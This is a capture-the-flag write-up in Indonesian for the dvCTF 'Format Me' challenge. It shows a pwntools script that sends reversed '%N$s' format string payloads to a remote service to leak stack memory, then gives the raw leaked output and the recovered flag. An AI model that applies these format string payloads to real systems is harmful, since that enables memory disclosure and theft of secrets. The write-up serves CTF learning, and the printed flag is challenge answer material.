 # Format Me
---
nc challs.dvc.tf 8888

# Solver
---
Tidak ada Attachment sama sekali. Yaudah connect dulu aja ```nc challs.dvc.tf 8888```. dari judulnya sih kelihatan bahwa ada celah format string dan apa yang kita inputkan akan di reverse dari hasil outputnya. Saya bikin program sederhana aja buat bruteforce nge leak flag yang ada menggunakan vuln format string jangan lupa payloadnya dibalik
```
from pwn import *
r = remote("challs.dvc.tf", 8888)
for i in range(3,200):
    try:
        payload = "%"+str(i)+"$s"
        r.recvuntil(":")
        r.sendline(payload[::-1])
        r.recvuntil("Result: \n")
        print(i,r.recvline())
    except Exception as e:
        r = remote("challs.dvc.tf", 8888)
        continue
```
yapsss flagnya bakal muncul hehehe
```
[+] Opening connection to challs.dvc.tf on port 8888: Done
3 b'\n'
4 b'@D#8\x04\x7f\n'
5 b'\xdf\x8e=\xae\xfc\x7f\n'
[+] Opening connection to challs.dvc.tf on port 8888: Done
[+] Opening connection to challs.dvc.tf on port 8888: Done
8 b'(null)\n'
9 b'(null)\n'
10 b'(null)\n'
11 b'(null)\n'
12 b'(null)\n'
[+] Opening connection to challs.dvc.tf on port 8888: Done
14 b'\n'
15 b'\n'
16 b'H\x85\xc0uTD9t$\x0cA\x8dV\x01v0A\x89\xd6\xb8\x02\n'
[+] Opening connection to challs.dvc.tf on port 8888: Done
18 b'H\x83\xc3\x01H9\xddu\xeaH\x83\xc4\x08[]A\\A]A^A_\xc3\x90f.\x0f\x1f\x84\n'
19 b'(null)\n'
20 b'(null)\n'
21 b'AWAVA\x89\xffAUATL\x8d%\xf6\x05 \n'
22 b'1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTI\xc7\xc0p\x08@\n'
23 b'\n'
24 b'dvCTF{1_h0p3_n01_s33s_th1s}\n'
25 b'AWAVA\x89\xffAUATL\x8d%\xf6\x05 \n'
26 b'\x89\xc7\xe8\x98V\x01\n'
[+] Opening connection to challs.dvc.tf on port 8888: Done
28 b'\xdf\xeeyd\xfe\x7f\n'
[+] Opening connection to challs.dvc.tf on port 8888: Done
30 b'UH\x89\xe5H\x81\xec\xa0\n'
31 b'(null)\n'
[+] Opening connection to challs.dvc.tf on port 8888: Done
33 b'1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTI\xc7\xc0p\x08@\n'
34 b'\n'
35 b'(null)\n'
36 b'(null)\n'

```
#### dvCTF{1_h0p3_n01_s33s_th1s}